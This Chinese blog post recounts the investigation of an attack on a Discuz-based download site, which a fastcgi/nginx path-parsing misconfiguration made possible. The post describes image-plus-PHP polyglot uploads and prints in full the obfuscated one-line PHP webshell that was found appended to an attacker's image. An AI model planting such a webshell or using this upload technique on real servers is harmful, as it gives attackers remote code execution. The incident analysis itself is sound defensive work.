 
---
layout: post
title: 记处置一起因fastcgi代码执行漏洞引发的攻击事件
categories:
- 今日头条
tags:
---
				最近也不知道怎么回事，我们自己的网站没有被黑，反倒是认识的一些朋友的网站被黑，要么是报复性攻击要么就是为了实现自己的经济利益；比如挂赌博网站的马，恶意使得网站跳转到非法网站，真是多事之秋。

事件背景

一个跟我关系很不错的朋友，也是我的老乡，今天上午跟我说他的网站中有一个会员在QQ上联系他，威胁他不让解封网站账号就有不良后果，诸如说什么去工信部举报之类的。而他的网站是资源下载类网站，现在日IP近万，也有不错的收益，而且在国内只要是资源下载类网站或多或少都有些问题，比如有的资源可能涉及侵权之类的。他自己还是挺担心的，担心真的被举报，即便他网站不存在什么严重违法问题，但有时候多一事不如少一事，就像我的网站当初因为会员发布一篇关于微软的文章被发律师函但没有注意，结果域名被hlod了。

但是没想到，还没等到那个人上午的威胁到来，结果现实的威胁却人了。中午的时候他就跟我说网站被攻击了，访问网站后15s后跳转到某色情网站。而他一个以运营见长，技术是他短板的人，却很快找到根目录下的index.php文件开头被插入恶意跳转代码。很显然，事情没有这么简单，就算他把其中的恶意代码删除，攻击者还是可以继续攻击，因为根源压根就不在这个地方。

![](http://p1.pstatp.com/large/96c0008f78a8845b520)

而他的网站就是基于Discuz创建的，基本上就是Discuz本身的状态，也就是说就算站点存在漏洞也不是他创造了这样的漏洞。基于这个时间点，他非常怀疑该事件与上午那个威胁者有关，但一时也不知道如何从根本上处理该问题。

问题处理

我首先要他做一个基本的验证操作，就是比对网站web程序看下近期是否被篡改，结果得到的反馈是并没有。然后，他跟我说他的阿里云后台里边有提示网站受攻击，但对于他自己也不知道如何分辨，因为很多被提示的攻击其实对网站是不存在影响的，比如很多针对某些开源编辑器的攻击，但他的网站压根没有使用，这样的攻击再多也不会被攻破的，最多变成dos攻击了，呵呵。我问了他几个上面提示的细节，比如要他注意有chr方法的地方，但看了之后还是觉得不是该事件的问题。

然后我干脆问他要了阿里云的账号，处于对我的信任他毫不犹豫给我了，我进入阿里云后台，因为我之前就利用阿里云提供的安全监控工具快速定位攻击事件，这比自己另外去找效率高得多。结果在“弱点”（其实就是漏洞）这个提示项中发现连续好几个高危提示，都是“fastcgi 代码执行漏洞”。

![](http://p1.pstatp.com/large/9aa0000e7d84cf696e5)

那这是一个什么漏洞呢？据了解该漏洞一般不是web程序引起的，而一般是由于web服务器配置不当引起的，比如nginx、iis等；该漏洞会使得一些不安全的文件被当做可执行的文件执行。非常典型的就是在图片中植入攻击代码，然后上传该图片到服务器，再利用该漏洞执行图片中的攻击代码。下面的图片就是验证该漏洞的，在根目录下robots.txt是搜索引擎协议文件，显然是正常的，但是加上/x.php访问安全状态是不能够被访问的，但他这里可以直接被访问，这漏洞表现得一览无余。

![](http://p3.pstatp.com/large/9700008f838d305d449)

我于是要他给我一个有上传图片权限的网站账号给我来测试，说到这里；他又跟我补充了一个细节：那就是上午那个威胁他的人对应的账号，从注册开始除了传图片外啥都没做。到了这里我越发感觉问题就是在这个地方。

我在本地制作一个带有一句话php执行木马的图片，用cmd命令行合并一个jpg图片和一个写有一句话木马的php文件。

![](http://p3.pstatp.com/large/9aa0000e7d6e81cfe6b)

然后利用他给我的用户账户上传文件（其实他的网站任意注册用户都有上传图片权限），结果这张带有木马的图片顺利上传到网站服务器中；这张图片很明显是带有木马的，这不用再看了。这时候我要他提供一张攻击者账户上传的图片给我。结果是一张这样的图片：

![](http://p1.pstatp.com/large/9700008f831bd46cab9)

呵呵，你丫是表情包呢，结果他说那个人传的都是类似这种风格的，尼玛，我也是醉了。用16进制查看器打开该文件，结果几乎让我可以完全确定该攻击源于此了：

![](http://p3.pstatp.com/large/9aa0000e7dd85f63340)

可以非常明显得看到在结尾有一段非常明显的代码，而此代码之前应该才是正常图片的编码。这段代码如下：

 <?php $z = base64_decode('Y.X.N.z.ZXJ0');$z($_POST[666]);?>

到了这里真相就出来了，这是一个非常典型的一句话木马。

结语

该漏洞在阿里云官方有两种解决方案的（阿里云官方解决方案），除此之外我们可以升级web服务器版本至安全版本等等。实际上上面的过程仅此这个漏洞攻击者还是不能够实现攻击目标，比如如果不给他传图片也就不能在图片中插入代码并上传到服务器。所以攻与防总是一环扣一环的。不管对于攻击者还是防护者都是有较高要求的，对于攻击者而言，可以利用的破绽中缺少某个环节就是功亏一篑；而对于防护者而言，需要尽可能避免漏洞的出现，哪怕对于该漏洞本身来讲并不是什么高危漏洞，但依然可能被利用。

这里也不得不赞一下阿里云，我之所以赞它并不仅仅是因为上述过程中使用了它提供的安全监控工具。而是在这个过程中，其实我做了一个逆向的攻击重现，也就是重现一遍攻击过程（当然该过程相对攻击者攻击过程轻松许多，呵呵），在这个过程中实践了除该攻击流程本身之外的过程。比如直接把木马上传到服务器做基础攻击测试，这个地方就是我要赞阿里云的，木马文件刚上传，邮件马上就到来。

![](http://p1.pstatp.com/large/9aa0000e7de759eddb6)

虽然该测试木马是非常容易被识别的，但我要赞的是阿里云的这个通知速度，绝对杠杠的。这不是打广告，使用阿里云产品几年了，确实相对以前省了不少事情或者提高了不少事情的处理效率，比如我们这边文章所讲的。

最后想说的是，没有绝对的安全体系，要做的是最大可能避免不良事件的发生，最重要的是有防范于未然的安全意识！